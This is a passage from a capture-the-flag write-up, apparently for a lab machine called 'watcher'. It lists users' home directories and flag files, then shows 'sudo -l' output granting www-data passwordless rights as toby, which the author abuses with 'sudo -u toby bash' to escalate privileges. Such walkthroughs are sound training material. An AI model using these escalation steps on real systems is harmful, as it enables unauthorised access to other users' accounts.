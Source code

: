 ```sh
drwxrwxr-x 3 mat  mat    4096 Dec  3  2020 .local
-rw-r--r-- 1 mat  mat     807 Dec  3  2020 .profile
-rw-r--r-- 1 mat  mat  270433 Dec  3  2020 cow.jpg
-rw------- 1 mat  mat      37 Dec  3  2020 flag_5.txt
-rw-r--r-- 1 will will    141 Dec  3  2020 note.txt
drwxrwxr-x 2 will will   4096 Dec  3  2020 scripts

/home/toby:
total 44
drwxr-xr-x 6 toby toby 4096 Dec 12  2020 .
drwxr-xr-x 6 root root 4096 Dec  3  2020 ..
lrwxrwxrwx 1 root root    9 Dec  3  2020 .bash_history -> /dev/null
-rw-r--r-- 1 toby toby  220 Dec  3  2020 .bash_logout
-rw-r--r-- 1 toby toby 3771 Dec  3  2020 .bashrc
drwx------ 2 toby toby 4096 Dec  3  2020 .cache
drwx------ 3 toby toby 4096 Dec  3  2020 .gnupg
drwxrwxr-x 3 toby toby 4096 Dec  3  2020 .local
-rw-r--r-- 1 toby toby  807 Dec  3  2020 .profile
-rw------- 1 toby toby   21 Dec  3  2020 flag_4.txt
drwxrwxr-x 2 toby toby 4096 Dec  3  2020 jobs
-rw-r--r-- 1 mat  mat    89 Dec 12  2020 note.txt

/home/will:
total 36
drwxr-xr-x 5 will will 4096 Dec  3  2020 .
drwxr-xr-x 6 root root 4096 Dec  3  2020 ..
lrwxrwxrwx 1 will will    9 Dec  3  2020 .bash_history -> /dev/null
-rw-r--r-- 1 will will  220 Dec  3  2020 .bash_logout
-rw-r--r-- 1 will will 3771 Dec  3  2020 .bashrc
drwx------ 2 will will 4096 Dec  3  2020 .cache
drwxr-x--- 3 will will 4096 Dec  3  2020 .config
drwx------ 3 will will 4096 Dec  3  2020 .gnupg
-rw-r--r-- 1 will will  807 Dec  3  2020 .profile
-rw-r--r-- 1 will will    0 Dec  3  2020 .sudo_as_admin_successful
-rw------- 1 will will   41 Dec  3  2020 flag_6.txt
```

We see that toby, mat, and will have flags 4,5, and 6 respectively, so we know we have to escalate to those 3 users in that order.

Checking our privileges as `www-data` ...

```sh
www-data@watcher:/home/toby/jobs$ sudo -l
Matching Defaults entries for www-data on watcher:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on watcher:
    (toby) NOPASSWD: ALL
```

... we see that we're able to run any command as toby without a password so we run `sudo -u toby bash` to get a shell as toby and grab flag 4.
